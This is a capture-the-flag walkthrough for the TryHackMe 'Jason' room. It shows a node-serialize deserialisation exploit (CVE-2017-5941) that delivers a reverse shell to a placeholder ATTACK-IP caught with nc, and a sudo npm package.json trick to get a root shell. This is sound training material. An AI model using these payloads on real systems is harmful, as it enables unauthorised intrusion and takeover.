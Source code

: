 # Try Hack Me - Jason

**Categories:**  Security, nodejs, deserialisation, web  
**Difficulty:**  Easy

Commands used in this guide use the exported variable $IP (`export IP=10.10.232.30`) in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the machine, we perform a basic TCP port scan with nmap (`sudo nmap $IP`) followed by a version enumeration scan on the 2 discovered ports (22 and 80) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ sudo nmap -p22,80 -sV $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-08 16:46 EDT
Nmap scan report for 10.10.232.30
Host is up (0.100s latency

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=10/8%Time=6160AE32%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,E4B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDat
...snip...
```

Google and searchsploit return no relevant vulnerabilities for the discovered SSH version. Navigating to the application on 80 shows reveals a placeholder screen with "built by nodejs" and an email sign-up input field :

```html
...snip...
<h4>Built with Nodejs</h4>
<br>
<h3>Coming soon! Please sign up to our newsletter to receive updates.</h3>
<br>
<h2>Email address:</h2>
<input type="text" id="fname" name="fname"><br><br>
<a class="button-line" id="signup">Submit</a>
...snip...
```

Usually we would continue with a gobuster scan to provide more information on the web application, but further exploration of the email sign-up functionality already gives us a possible exploitation opportunity - we can always come back to gobuster if we need it.

## 2: Web application - curl, cookies

Investigating the request made by the email sign-up field shows that it makes a POST request with the user input as a query param, and returns a base64 encoded cookie : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ curl -X POST $IP/?email=TESTER -I
HTTP/1.1 200 OK
Set-Cookie: session=eyJlbWFpbCI6IlRFU1RFUiJ9; Max-Age=900000; HttpOnly, Secure
Content-Type: text/html
Date: Fri, 08 Oct 2021 20:53:41 GMT
Connection: keep-alive
Transfer-Encoding: chunked
```

Decoding the cookie shows that it contains a JSON object with our user input assigned to the key "email" :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ echo "eyJlbWFpbCI6IlRFU1RFUiJ9" | base64 -d
{"email":"TESTER"}
```

Making the same request in the browser also triggers a page reload, after which the user provided input is displayed on the page : 

```html
    <h3>We'll keep you updated at: TESTER</h3>
```

So what's happening here? The code that handles the request is available in the page source, but there are 4 basic steps :

1. A POST request sends the user's input to the server in the `?email=` query param
2. The server responds to the POST request with a SetCookie header with a base64 encoded JSON object containing the user input
3. The page is reloaded (see `window.location.reload` in the source), making a GET request that sends the new cookie back to the server
4. The server responds to the GET request, adding the value received in the cookie to the "We'll keep you updated at: VALUE"

So the most obvious potential vulnerability is XSS, but this isn't going to help us in the context of a CTF (and doesn't actually work - we'll see why later). But we now have enough information to suspect that something might be going on here with nodejs's handling of user provided JSON input. A google search for "nodejs json vulnerabilities" throws up an article on a [JSON deserialisation bug in the npm package "node-seralize"](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## 3: Foothold - CVE-2017-5941

Understanding the vulnerability requires some prior knowledge of node and javascript.

Firstly, the "node-serialize" package allows for javascript objects to be [serialised](https://en.wikipedia.org/wiki/Serialization) - essentially, to be turned into strings for inclusion in databases, HTTP requests, etc. The package also provides a method "unserialize" which performs the reverse operation - transforming serialized strings into javascript objects. This and similar packages have mostly been replaced by the JSON.stringify and JSON.parse built-ins in modern javascript.

Secondly, JavaScript includes [Immediately Invoked Function Expressions](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression)(IIFE) - these are just functions are executed at the same time as they are defined :

```console
┌──(kali㉿kali)-[~]
└─$ node
Welcome to Node.js v16.11.0.
Type ".help" for more information.
> ( function(){ console.log('Immediately invoked!'); })()
Immediately invoked!
```

You might already be able to see where this is going - when objects passed to node-serialize's "unserialize()" method include an IIFE, these functions are executed during deserialisation. The article provides an example of RCE exploiting this vulnerability, and we'll use this same example to get "unserialize()" to execute a reverse shell.

Just like the article, we generate a node reverse shell using [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ ./nodejsshell.py ATTACK-IP 4444
[+] LHOST = ATTACK-IP
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116...snip...
```

Now we might think that we can wrap this reverse shell in an IIFE and copy it to the web app's email field. This doesn't work, and the article explains why - the unserialize() method only executes IIFEs if it recognises them as functions serialized by node-serialize's "serialize()" method (keep up now). So at this point we could start a new node project, import node-serialize, pass our reverse shell through serialize, etc. etc., or we could just read the article and steal the "_$$ND_FUNC$$_" flag used by serialize() to indicate a function. After adding this flag to our IIFE'd reverse shell, our exploit script should look something like this :

```js
_$$ND_FUNC$$_function(){eval(String.fromCharCode(...snip...))}()
```

If the application works as expected, we shouldn't have to encode this for inclusion in the cookie - we can just paste it as regular input into the email field and let the application encode it, set it as cookie, and send it back to the server with `window.location.reload`. We start a listener on the attack machine, submit the exploit through the email field, and the reverse shell successfully connects :

```console
┌──(kali㉿kali)-[~/Documents/tthm/jason]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.232.30] 50822
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```

The user flag is at `/home/dylan/user.txt`.

## 4. Privesc dylan -> root - npm GTFObin

Running `sudo -l` as the dylan user shows that they can run `/usr/bin/npm` as all users without a password : 

```console
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

If you're familiar with nmp, you will know that it can execute commands and scripts defined in a `package.json` file with `nmp run`. If you're not familiar with npm, [GTFObins](https://gtfobins.github.io/gtfobins/npm/) will tell you the same thing. We start by creating a simple `package.json` file that defines a command "start" that executes "/bin/bash" (these commands are run on the target as dylan - our current shell isn't the best but it doesn't matter here) :

```console
echo '{"scripts": {"start": "/bin/bash"}}' > ./package.json
```

and we can then execute the start command using `npm run` as root :

```console
sudo npm run start

> @ start /home/dylan
> /bin/bash

id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`. 

I mentioned earlier that XSS attacks on the apparently vulnerable email field don't work - but why not? Take a look at `/opt/webapp/server.js`, where values received from the cookie are passed through an XSS filter :

```js
var email = xssFilters.inHTMLData(obj.email).substring(0,20);
$('h3').replaceWith(`<h3>We'll keep you updated at: ${email}</h3>`);
```

Dylan's not so bad at security after all!
